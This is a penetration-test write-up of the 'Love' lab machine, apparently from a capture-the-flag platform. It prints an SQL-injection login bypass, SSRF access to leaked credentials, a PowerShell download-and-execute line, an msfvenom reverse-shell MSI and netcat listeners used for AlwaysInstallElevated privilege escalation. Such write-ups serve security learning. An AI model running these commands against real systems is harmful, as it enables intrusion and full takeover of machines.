

# Penetration Test Write-Up: "Love" Machine

## Overview

"Love" is a Windows machine with a voting system that has a serious security flaw. The system exposes multiple services, including a vulnerable file scanner that can be exploited through SSRF (Server-Side Request Forgery). Using this vulnerability, we gain access to internal services and extract credentials for the voting system. After logging in, we exploit a remote code execution bug to gain a foothold on the system as the user "phoebe." Further privilege escalation allows us to bypass AppLocker and execute commands with SYSTEM privileges.

---

## Enumeration

### Nmap Scan
We started with an Nmap scan to identify open ports and services:

```
nmap -sC -sV -oA nmap/love 10.10.10.239 -Pn
```





**Open Ports:**
- **80**: HTTP 
- **443**: HTTPS (leaking staging.love.htb)
- **5000**: HTTP service
- **445**: SMB service also detected
- **3306**: MySQL

We added the site names in our hosts file
```
echo "10.10.10.239 love.htb staging.love.htb" | sudo tee -a /etc/hosts
```

### HTTP Service (Port 80)
The web server on port 80 displayed a login page for the voting system. We attempted a few common login credentials and noted that an incorrect password prompt appeared for valid usernames, confirming that an admin account exists.


### HTTPS Service (Port 443)
Accessing https://staging.love.htb, and we got a File Scanner page. But we have no credentials to access it.


### Port 5000
Attempting to access port 5000 directly was blocked.


### Other ports
The SMB service did not allow anonymous login. We switched to running a **Gobuster** scan to find hidden directories.

```
gobuster dir -u http://10.10.10.239 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Gobuster identified several directories, some of them are defaults but these two might be useful as we progress with our exploits.:
- `/images`
- `/admin`


---

## Exploitation

### SQL Injection
We tested for SQL injection on the login page. Using the exploit from [Exploit-DB](https://www.exploit-db.com/exploits/49843), we successfully bypassed authentication:

```
Username: dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
Password: admin
```


### File Upload Vulnerability
After logging in, we navigated to the "Create Voter" page, which allowed file uploads. We uploaded various file types and found that the server saved them to the `/images` directory.


We tried to upload a php reverse shell but it failed to execute as something is blocking it from the server side.


### SSRF Exploitation
Switching tactics, we ran another Gobuster scan on staging.love.htb and discovered `beta.php`. By leveraging SSRF, we accessed internal services by querying localhost URLs directly:


- http://localhost:5000 revealed an internal password manager with leaked credentials:
```
  admin:@LoveIsInTheAir!!!!
```
---

### RCE on Voting System
Using the leaked credentials, we logged into the voting system and found an RCE exploit in Exploit-DB ([49445.py](https://www.exploit-db.com/exploits/49445)). After modifying the script to point to the correct URLs, we executed it:


The exploit works but these URLs are needed to be updated. I've also added my listening IP and PORT, and the admin credentials as well.


I setup a netcat listener
```
nc -lnvp 9001
```

Then run the exploit
```
python3 ./49445.py
```

We established a reverse shell and got the user flag.


---

## Privilege Escalation

### PowerUp Script
I uploaded and run the PowerUp script to identify privilege escalation vectors:

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.11:8000/PowerUp.ps1')
```

The scan revealed that the **AlwaysInstallElevated** registry key was set to 1. The **AlwaysInstallElevated registry** key is a known privilege escalation vector in Windows systems. When this key is set to 1, it allows MSI files to be installed with elevated privileges by non-administrator users. This is a major security risk because attackers can abuse it to execute arbitrary MSI packages with SYSTEM privileges.


### Crafting an MSI Payload
We used **msfvenom** to create a malicious MSI payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f msi > shell.msi
```

### Upload and Execution
We uploaded the payload to `C:\programdata` using **curl**:

The C:\ProgramData directory is commonly accessible for "Everyone" because it's used by Windows to store shared application data that needs to be accessible by multiple users, regardless of their privilege level. I've also checked the directory's permission and Users are allowed to execute.

```
Get-Acl . | Format-List
```


As this directory is confirmed that we can run our privilege escalation exploit, we download the .msi file from our local machine.
```
curl http://10.10.14.11:8000/shell.msi -o shell.msi
```

Then, we set up a listener:

```
rlwrap nc -lnvp 4444
```

Finally, we executed the MSI file with elevated privileges:

```
msiexec /quiet /qn /i shell.msi
```

Upon execution, we gained a shell with SYSTEM privileges.


---

## Conclusion
The "Love" machine showcased several critical vulnerabilities:
1. SQL Injection on the voting system login page.
2. SSRF vulnerability that exposed internal services.
3. Misconfigured AlwaysInstallElevated registry key, allowing privilege escalation.

By systematically exploiting these weaknesses, we achieved full control of the system as a SYSTEM user.

